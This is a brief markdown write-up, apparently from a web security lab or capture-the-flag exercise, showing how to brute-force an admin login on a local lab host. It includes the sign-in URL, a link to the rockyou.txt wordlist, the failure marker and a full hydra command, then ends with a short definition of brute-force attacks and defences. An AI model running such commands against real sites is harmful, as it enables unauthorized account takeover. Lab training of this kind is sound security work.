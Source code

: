 # BRUTEFORCE

```
http://172.16.42.128/index.php?page=signin&username=admin&password=1234&Login=Login#
```

### PASSWORD LIST

```https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt```
 

```html
<img src="images/WrongAnswer.gif" alt="">
```

### HYDRA

```hydra -l admin -P rockyou.txt 172.16.42.128 http-get-form '/:page=signin&username=^USER^&password=^PASS^&Login=Login:gif'```


A brute-force attack is a method used to gain unauthorized access by systematically trying all possible combinations of passwords or keys until the correct one is found. This approach is simple but can be time-consuming, especially if strong, complex passwords are used. Brute-force attacks often utilize automated tools and wordlists to speed up the process. Implementing strong password policies, rate limiting, and multi-factor authentication are effective ways to defend against such attacks.